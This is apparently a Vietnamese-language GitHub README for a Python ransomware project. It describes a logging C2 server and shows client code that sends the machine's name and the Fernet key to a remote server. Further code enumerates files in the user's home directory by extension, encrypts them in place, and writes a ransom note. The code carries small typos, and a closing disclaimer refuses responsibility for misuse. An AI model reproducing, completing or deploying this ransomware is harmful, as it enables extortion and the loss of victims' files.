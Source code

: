  # RANSOMWARE
 *Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.*
 ## SERVER
 - Tính Năng
 *Xử Lý Kết Nối Máy Khách: Máy chủ chấp nhận kết nối từ máy khách và xử lý dữ liệu đến.*
 *Đa Luồng: Sử dụng luồng để xử lý nhiều kết nối máy khách cùng một lúc.*
 *Ghi Nhật Ký Hoạt Động: Ghi nhật ký hoạt động của máy khách vào cơ sở dữ liệu SQLite.*
 *Ghi Nhật Ký Lỗi: Ghi nhật ký lỗi gặp phải bởi máy chủ vào cùng một cơ sở dữ liệu.*

 - Cấu Trúc Mã
 *Lớp Máy Chủ: Quản lý khởi tạo máy chủ, kết nối máy khách và xử lý dữ liệu.*
 *Lớp SQLiteLog: Xử lý các thao tác cơ sở dữ liệu bao gồm kết nối, tạo bảng và ghi nhật ký hoạt động/lỗi.*
 *Hàm Console: In các thông điệp ra cửa sổ console với đầu ra màu sắc.*
 *Hàm Main: Khởi tạo máy chủ và bắt đầu lắng nghe các kết nối.*

 - Xử Lý Lỗi
 *Kịch bản bao gồm xử lý lỗi mạnh mẽ để xử lý ngoại lệ một cách nhẹ nhàng và ghi nhật ký lỗi để gỡ lỗi và bảo trì.*

 - Đóng Góp
 *Các đóng góp để cải thiện tính năng, tính bảo mật và hiệu suất của kịch bản là hoan nghênh. Fork kho lưu trữ, thực hiện các thay đổi của bạn và gửi yêu cầu kéo.*

 - Giấy Phép
 *Kịch bản này được cấp phép theo Giấy Phép MIT. Xem tệp LICENSE để biết thông tin chi tiết.*
 ## ENCRYPT
 - **__init__:**
  *Khởi tạo các biến cần thiết như địa chỉ IP và cổng máy chủ, khóa riêng tư (Private) được tạo từ **Fernet**.*
 ```python
def __init__(self, host: str, port: str) -> None:
    self.host = host
    self.port = port
    self.server = socket(AF_INET, SOCK_STREAM)  # Tạo socket kết nối TCP
    self.key = Fernet.generate_key()  # Tạo khóa bí mật ngẫu nhiên
    self.Private = Fernet(self.key)  # Tạo đối tượng Fernet với khóa bí mật
    self.system = os.uname().sysname  # Lấy tên hệ thống
 ```

 - **ConnectServer:**
  *Kết nối đến máy chủ với số lần thử lại tối đa là 3. Nếu kết nối thành công, gửi thông tin hệ thống và khóa đến máy chủ. Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình.*
 ```python
def ConnectServer(self, connected=False) -> None:
    retries = 0
    while not connected and retries < 3:
        try:
            # Kết nối đến máy chủ với địa chỉ và cổng đã cung cấp
            self.server.connect((self.host, self.port))
            # Gửi thông tin hệ thống và khóa đến máy chủ
            self.server.sendall(f'{self.system}|{self.key.decode("utf-8")}'.encode('utf-8'))
            connected = True
        except:
            # Tăng số lần thử lại và chờ 100 giây trước khi thử lại
            retries += 1
            if retries < 3:
                sleep(100)
            else:
                # Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình
                os.execv(sys.executable, [sys.executable] + sys.argv)
        finally:
            # Đóng kết nối sau khi thực hiện xong
            self.server.close()
 ```
 - **Encrypted:**
  *Mã hóa các tệp trên hệ thống. Nó lặp qua tất cả các tệp trong hệ thống, mã hóa chúng bằng cách đọc và ghi dữ liệu từng phần. Lặp qua tất cả các tệp trong thư mục đã chỉ định và mã hóa từng tệp.*
 ```python
def Encrypted(self):
   for _, files in self.listfiles().items():
        for file in files:
            temp_file = file + '.temp'
 ```
 *Mở tệp gốc để đọc và tệp tạm thời để ghi*
 ```python
 try:
   with open(file, 'rb') as original_file, open(temp_file, 'wb') as encfile:
      while True:
         # Đọc dữ liệu từ tệp gốc thành các phần nhỏ có kích thước 4 MB
         hunk = original_file.read(4096 * 1024)
         if not chunk:
            break
         # Mã hóa từng phần nhỏ kích thước khóa là 32
         enc_chunk = self.Private.encrypt(chunk, 32)[0]
         # Ghi phần nhỏ đã mã hóa vào tệp tạm thời
         encfile.write(enc_chunk)
      os.replace(temp_file, file)
 except:
      pass  # Bỏ qua bất kỳ ngoại lệ nào
 finally:
   #Nếu tệp tạm thời tồn tại, xóa nó
   if os.path.exists(temp_file): 
      os.remove(temp_file)
 ```

 - **Contact:**
  *Tạo một tệp văn bản chứa thông điệp yêu cầu thanh toán chuộc.* 

 - **Listfiles:** 
 *Liệt kê các tệp trên hệ thống và phân loại chúng dựa trên phần mở rộng.*

 *Các phần mở rộng tệp được chia thành các danh mục như sau.*
 ```python
def Listfiles(self) -> dict:
    exts = {
        'images': ['.jpg', '.png'],
        'documents': ['.txt', '.docx'],
        'others': ['.rar', '.zip', '.mp4'],
        'code': ['.java', '.py', '.pyc', '.html', '.css']
    }
 ```
 *khởi tạo với các khóa là các danh mục từ exts và giá trị là danh sách rỗng.*
 *Nó sẽ được sử dụng để lưu trữ các tệp theo danh mục.*
 ```python
    file_categories = {category: [] for category in exts}S
 ```
 *Từ điển này ánh xạ từng phần mở rộng tệp đến danh mục tương ứng của nó.*
 *Điều này giúp dễ dàng xác định danh mục của một tệp dựa trên phần mở rộng của nó.*
 ```python
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}
 ```
 *Sử dụng* **Path.home().rglob('**~**')** *để liệt kê tất cả các tệp trong thư mục home của người dùng*
 *Kiểm tra nếu entry là một tệp **entry.is_file()**.*

 *Lấy phần mở rộng của tệp **entry.suffix.lower()**, chuyển nó thành chữ thường và gán vào biến ext.*

 *Nếu ext có trong extcategory, thêm đường dẫn của tệp entry vào danh sách tương ứng trong file_categories.*
 
 *trả về các tệp đã được phân loại.*
 ```python
    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))
    return file_categories
 ```
 ### Chúng tôi không chịu trách nhiệm về các hành vi vi phạm pháp luật của các cá nhân hay tổ chức sử dụng trái phép mã nguồn mở này!
